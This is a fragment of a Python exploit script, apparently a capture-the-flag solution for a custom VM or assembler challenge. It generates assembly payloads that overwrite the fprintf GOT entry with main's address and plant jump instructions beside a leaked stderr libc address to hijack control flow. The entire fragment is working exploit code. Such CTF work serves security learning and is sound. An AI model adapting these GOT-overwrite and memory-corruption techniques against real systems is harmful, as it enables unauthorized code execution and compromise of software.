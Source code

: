 ```py
            
        loop_start:
            mov r3, {idx}
            push r3
            sub r5, 1     
            cmp r5, 0      
            jne loop_start 

    """
    if nops > 0:
        assembly_code = "nop\n" * nops + assembly_code
    for val in value:
        assembly_code += f"push {val}\n"

    if restart:
        assembly_code += "mov r8, r8"
    return assembly_code


def send_assembly(assembly_code):
    try:
        payload = assemble(assembly_code)
        ls(f"Assembly successful! Bytecode length: {len(payload)} bytes")
    except ValueError as e:
        log.failure(f"Assembly Error: {e}")
        sys.exit(1)

    sa(">", payload.ljust(0x1000, b'\0'))

def asm_bytes_to_int32(bytes_list):
    return [u32(bytes_list[i:i+4]) for i in range(0, len(bytes_list), 4)]

p = start()


# overwrite fprintf GOT to main
assembly_code = overwrite_memory(-1054, [0x401a96], restart=True) 
send_assembly(assembly_code)



# write a "mov r1, x" under stderr, using the lower 4 bytes of the stderr libc address as immediate value ("x")
assembly_code = """
nop
"""*6
assembly_code += """
mov r1, 0xdeadbeef 
"""
assembly_code = overwrite_memory(-1034, asm_bytes_to_int32(assemble(assembly_code))[:-1], restart=True)
send_assembly(assembly_code)


# write a "jmp to instruction area" in the upper 4 bytes of the stderr libc address (as next instruction) 
assembly_code = f"""
jmp 53
"""
assembly_code = overwrite_memory(-1031, asm_bytes_to_int32(assemble(assembly_code)), restart=True)
send_assembly(assembly_code)


```